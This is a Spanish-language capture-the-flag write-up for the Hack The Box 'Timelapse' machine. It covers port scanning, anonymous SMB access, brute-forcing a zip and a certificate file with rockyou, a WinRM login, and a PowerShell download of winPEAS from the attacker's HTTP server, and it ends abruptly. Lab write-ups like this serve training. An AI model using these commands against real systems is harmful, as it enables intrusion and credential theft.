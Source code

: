 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:
```S
ping -c 2 10.10.11.152
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:
```S
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```
Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:
```S
ls /usr/share/nmap/scripts | grep smb-vuln
```
El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos en el servicio. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.
```S
nano /etc/hosts
```

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb
```S
enum4linux -a 10.10.11.152
```

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas
```S
smbclient --no-pass --list=10.10.11.152
```
Para conectarnos al rpc y obtener mas informacion

```S
rpcclient -U "" -N 10.10.11.152
```

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```S
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```
Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:
```S
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```S
sudo apt install libssl-dev
sudo ./configure
make    
```
El comando que utilizaremos, para volver a usar la wordlist, es:
```S
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```
La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```
A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:
```S
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 
Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina
```py
python3 -m http.server 80
``` 
Con PowerShell, ejecutamos el siguiente comando para hacer la descarga
```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
``` 
Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.
```S
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 
Nos descargamos el archivo de historia de comandos y lo visualizamos

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

Leemos la ultima bandera, y habremos terminado la maquina
